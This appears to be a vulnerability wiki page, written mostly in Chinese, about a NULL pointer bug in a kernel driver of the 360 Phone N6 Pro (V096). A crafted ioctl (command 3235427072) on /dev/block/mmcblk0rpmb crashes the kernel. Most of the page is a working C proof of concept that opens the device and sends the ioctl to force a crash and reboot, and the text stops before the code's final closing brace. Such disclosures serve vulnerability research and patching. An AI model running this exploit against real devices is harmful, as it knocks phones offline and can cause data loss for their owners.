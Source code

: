 <languages   />

<div lang="chinese" dir="ltr" class="mw-content-ltr">
漏洞原理
--------

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
360 Phone N6 Pro V096內核組件中的內核模塊允許攻擊者使用命令3235427072在設備`/dev/block/mmcblk0rpmb`上通過ioctl的自變量注入精心設計的自變量，並導致內核崩潰。

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
漏洞影響
--------

</div>
360 Phone N6 Pro 1801-A01

POC
---

    /*
    * This is poc of 360 N6 Pro, 1801-A01
    * Android Version: 7.1.1
    * Version Number: V096
    * Kernel Version: Linux localhost 4.4.21-perf #1 SMP PREEMPT Wed Mar 28 15:24:20 UTC 2018 aarch64
    * A NULL pointer bug in the ioctl interface of device file /dev/block/mmcblk0rpmb causes the system crash via IOCTL 3235427072.
    * This Poc should run with permission to do ioctl on /dev/block/mmcblk0rpmb.
    */
    #include <stdio.h>
    #include <fcntl.h>
    #include <errno.h>
    #include <sys/ioctl.h>

    const static char *driver = "/dev/block/mmcblk0rpmb";
    static command = 3235427072; // 0xc0d8b300

    int main(int argc, char **argv, char **env) {
    int fd = 0;
    fd = open(driver, O_RDWR);
    if (fd < 0) {
    printf("Failed to open %s, with errno %dn", driver, errno);
    system("echo 1 > /data/local/tmp/log");
    return -1;
    }

    printf("Try ioctl device file '%s', with command 0x%x and payload NULLn", driver, command);
    printf("System will crash and reboot.n");
    if(ioctl(fd, command, NULL) < 0) {
    printf("Allocation of structs failed, %dn", errno);
    system("echo 2 > /data/local/tmp/log");
    return -1;
    }
    close(fd);
    return 0;